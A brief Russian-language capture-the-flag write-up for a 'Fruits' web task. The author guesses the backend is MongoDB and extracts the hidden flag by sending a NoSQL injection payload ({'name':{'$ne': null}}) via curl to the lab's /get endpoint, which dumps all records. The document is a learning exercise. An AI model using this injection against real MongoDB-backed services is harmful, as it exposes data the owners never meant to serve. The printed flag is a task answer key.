 ## Таск: Фрукты
_Вот вам сайт одного помешанного на фруктах человека. Даже базу данных для своего проекта он выбрал просто потому что она была созвучна с манго. Оказалось что он не очень то и разбирается в программировании. Найдите и вы в его сайте уязвимость. http://HOST:30008_  
  
В описании сказано, что название базы данных созвучно с манго, гуглим mango database. Первый результат - MongoDB. Это и есть выбранная база данных.  
При отправке запроса браузер делает POST запрос на /get с содержанием JSON. $gte и $lte это указатели на то, что на сервер отправляется именно запрос для БД. Попробуем отправить запрос, который выберет все документы, у которых имя не пустое.
```
$ curl --header "Content-Type: application/json" --request POST --data '{"name":{"$ne": null}}' http://localhost:33008/get
[{"cal":130,"cal_from_fat":0, 
...
{"flag":"CTF{m0ngo_1s_ju5t_l1k3_m4ngo}","name":"The forbidden fruit"}]
``` 
Ответ CTF{m0ngo_1s_ju5t_l1k3_m4ngo}.